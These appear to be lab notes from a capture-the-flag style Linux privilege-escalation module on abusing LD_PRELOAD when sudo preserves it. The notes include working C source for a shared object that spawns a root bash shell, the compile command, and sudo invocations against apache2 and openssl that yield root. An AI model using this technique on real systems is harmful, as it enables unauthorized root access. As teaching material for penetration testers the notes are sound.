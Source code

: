 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)
  - [LD_PRELOAD Privilege Escalation](#LD_PRELOAD\Privilege\Escalation)
      - [Pivilege escalation w/ LD_PRELOAD & Openssl](#Pivilege\escalation\w/\LD_PRELOAD\&\Openssl)

## Table of Contents

  - [LD_PRELOAD Privilege Escalation](#LD_PRELOAD\Privilege\Escalation)
      - [Pivilege escalation w/ LD_PRELOAD & Openssl](#Pivilege\escalation\w/\LD_PRELOAD\&\Openssl)

It's common for linux programs to use dynamically linked shared objects libraries. Libraries contain compiled code or other data that developers use to avoid having to re-write the same pieces of code across multiple programs. 


Two types of libraries exist in Linux: `static libraries` (denoted by the **.a** file extension) and `dynamically linked shared object libraries` (denoted by the **.so** file extension). When a program is compiled, static libraries become part of the program and can not be altered. However, dynamic libraries can be modified to control the execution of the program that calls them.


There are multiple methods of specifying the location of dynamic libraries, so the system will know where to look for them on program execution. This includes the `-rpath` or `-rpath-link` flags when compiling a program, using the environmental variables `LD_RUN_PATH` or `LD_LIBRARY_PATH`, placing libraries in the `/lib` or `/usr/lib` default directories, or specifying another directory containing the libraries within the `/etc/ld.so.conf` configuration file.

Additionally, the `LD_PRELOAD` environment variable can load a library before executing a binary. The functions from this library are given preference over the default ones. The shared objects required by a binary can be viewed using the `ldd` utility.


```shell
htb_student@NIX02:~$ ldd /bin/ls
```


## LD_PRELOAD Privilege Escalation

Let's see an example of how we can utilize the [LD_PRELOAD](https://blog.fpmurphy.com/2012/09/all-about-ld_preload.html) environment variable to escalate privileges. For this, we need a user with `sudo` privileges.

```shell
htb_student@NIX02:~$ sudo -l

Matching Defaults entries for daniel.carter on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User daniel.carter may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/apache2 restart
```


This user has rights to restart the Apache service as root, but since this is `NOT` a [GTFOBin](https://gtfobins.github.io/#apache) and the `/etc/sudoers` entry is written specifying the absolute path, this could not be used to escalate privileges under normal circumstances. However, we can exploit the `LD_PRELOAD` issue to run a custom shared library file. Let's compile the following library:

Code: c

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");
}
```

We can compile this as follows:

```shell
htb_student@NIX02:~$ gcc -fPIC -shared -o root.so root.c -nostartfiles
```

```shell
htb_student@NIX02:~$ sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart

id
uid=0(root) gid=0(root) groups=0(root)
```

#### Pivilege escalation w/ LD_PRELOAD & Openssl
```bash
htb-student@NIX02:~$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
htb-student@NIX02:~$ sudo LD_PRELOAD=/^C
htb-student@NIX02:~$ realpath shell.so
/home/htb-student/shell.so
htb-student@NIX02:~$ sudo LD_PRELOAD=/home/htb-student/shell.so openssl
root@NIX02:~# id
uid=0(root) gid=0(root) groups=0(root)
root@NIX02:~# cd /root/ld_preload/
root@NIX02:/root/ld_preload# ls
flag.txt
root@NIX02:/root/ld_preload# cat flag.txt
6a9c151a599135618b8f09adc78ab5f1
root@NIX02:/root/ld_preload# cat shell.c
cat: shell.c: No such file or directory
root@NIX02:/root/ld_preload# cd ~
root@NIX02:~# ls
cert.pem  lynis-master  shared_obj_hijack  shell.do
key.pem   master.zip    shell.c            shell.so
root@NIX02:~# cat shell.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");
}

```



